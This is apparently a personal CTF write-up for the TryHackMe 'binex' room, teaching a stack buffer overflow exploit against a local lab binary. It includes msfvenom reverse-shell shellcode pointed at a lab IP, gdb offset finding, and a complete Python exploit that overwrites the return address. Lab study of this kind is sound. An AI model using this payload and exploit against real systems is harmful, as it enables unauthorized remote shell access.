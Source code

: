 # Buffer Overflow theory

Based on experiences from TryHackMe room https://tryhackme.com/room/binex, I need to get better at this, so here is a mini writeup for that portion of the room.

Instructions below are based on a executable that reads a string then overflows, named `bof`. The methodology here is largely extracted from one of the writeups for Binex: https://github.com/Syp1ng/Writeups/blob/master/THM/Binex.pdf

1. First, generate a test string using metasploit's pattern_create.rb: 
  
  You can find the location of the script using `find / -name pattern_create.rb`. Here are two locations I've seen:
  
  - `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 1000`
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`
  
2. Open the exe with gdb. E.g. `gdb ./bof`. Breakpoints are not necessary, but as a quick primer if you do want them:

  - `info functions` shows all functions
  - `disas <function>` renders the assembly for a function, including the mem addresses and their offsets
  - `b * <function name>+<offset>` sets a breakpoint. E.g. `b * foo+39` will set a breakpoint in the function foo at offset 39
  - to run the code up to a break point (or just generally) use `r`. You can also pipe data into `r` if you like, or pass args to it.

3. Run til it asks for data, then paste in the test string. It should run and segfault after this.

4. Use `info registers` to see the register contents. Hopefully you should see something like this:

    ```
    (gdb) info registers
    rax            0x0      0
    rbx            0x3e9    1001
    rcx            0x0      0
    rdx            0x0      0
    rsi            0x555555554956   93824992233814
    rdi            0x7ffff7dd0760   140737351845728
    rbp            0x4134754133754132       0x4134754133754132
    rsp            0x7fffffffe228   0x7fffffffe228
    r8             0xffffffffffffffed       -19
    r9             0x25e    606
    r10            0x5555557564cb   93824994337995
    r11            0x555555554956   93824992233814
    r12            0x3e9    1001
    r13            0x7fffffffe320   140737488347936
    ```
    
    That value for rbp is what is needed: `4134754133754132` Take this, and run it against another metasploit script: pattern_offset. It should be just next to pattern_create:
    
    ```
    root@ip-10-10-167-14:~# /opt/metasploit-framework-5101/tools/exploit/pattern_offset.rb -q 4134754133754132
    [*] Exact match at offset 608
    ```
    
5. Before leaving gdb, also take a look at the stack via `x/100x $rsp-700`. Should see something like this:

  ```
  (gdb) x/100x $rsp-700
  0x7fffffffdf6c: 0x00007fff      0x00000012      0x00000000      0xf7dd0760
  0x7fffffffdf7c: 0x00007fff      0x55554934      0x00005555      0xf7a64b62
  0x7fffffffdf8c: 0x00007fff      0xf79e90e8      0x00007fff      0x000003e9
  0x7fffffffdf9c: 0x00000000      0xffffe220      0x00007fff      0x000003e9
  0x7fffffffdfac: 0x00000000      0xffffe320      0x00007fff      0x55554848
  0x7fffffffdfbc: 0x00005555      0x41306141      0x61413161      0x33614132
  0x7fffffffdfcc: 0x41346141      0x61413561      0x37614136      0x41386141
  0x7fffffffdfdc: 0x62413961      0x31624130      0x41326241      0x62413362
  0x7fffffffdfec: 0x35624134      0x41366241      0x62413762      0x39624138
  0x7fffffffdffc: 0x41306341      0x63413163      0x33634132      0x41346341
  0x7fffffffe00c: 0x63413563      0x37634136      0x41386341      0x64413963
  0x7fffffffe01c: 0x31644130      0x41326441      0x64413364      0x35644134
  0x7fffffffe02c: 0x41366441      0x64413764      0x39644138      0x41306541
  0x7fffffffe03c: 0x65413165      0x33654132      0x41346541      0x65413565
  0x7fffffffe04c: 0x37654136      0x41386541      0x66413965      0x31664130
  0x7fffffffe05c: 0x41326641      0x66413366      0x35664134      0x41366641
  0x7fffffffe06c: 0x66413766      0x39664138      0x41306741      0x67413167
  0x7fffffffe07c: 0x33674132      0x41346741      0x67413567      0x37674136
  0x7fffffffe08c: 0x41386741      0x68413967      0x31684130      0x41326841
  0x7fffffffe09c: 0x68413368      0x35684134      0x41366841      0x68413768
  0x7fffffffe0ac: 0x39684138      0x41306941      0x69413169      0x33694132
  0x7fffffffe0bc: 0x41346941      0x69413569      0x37694136      0x41386941
  0x7fffffffe0cc: 0x6a413969      0x316a4130      0x41326a41      0x6a41336a
  0x7fffffffe0dc: 0x356a4134      0x41366a41      0x6a41376a      0x396a4138
  0x7fffffffe0ec: 0x41306b41      0x6b41316b      0x336b4132      0x41346b41
  ```
  
  Here you can see the test string starting near the top. Pick one of those side addresses further down - this address might work or not, you might need to do some trial and error so keep this output handy. E.g. from the above I tried two, the first failing, before `0x7fffffffe07c` worked for me.
    
6. Get some shell code. One way to make this, which works when you have a lot of space (in binex I had around 1000 bytes, but thats rare) is to use msfvenom. Here I created a reverse shell caller: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.167.14 LPORT=4444 -b '\x00' -f python`. This prints out some python code:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 597 bytes
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
buf += b"\x34\x41"
```

7. Compile an exploit string. I created a python file I could invoke against the binary to exploit:

```python
from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
buf += b"\x34\x41"

calculated_offset = 608
rip = 0x7fffffffe07c
payload_len = calculated_offset + 8
nop_payload = 300*nop
shell_len = len(buf)
nop_len = len(nop_payload)
padding = 'A'*(payload_len - shell_len - nop_len)
payload = nop_payload + buf + padding + pack("<Q", rip)

print(payload)
```

10. Finally, all this in hand (and after setting up the shell listener!), run against the binary to exploit: `./bof < <(python exploit.py)`
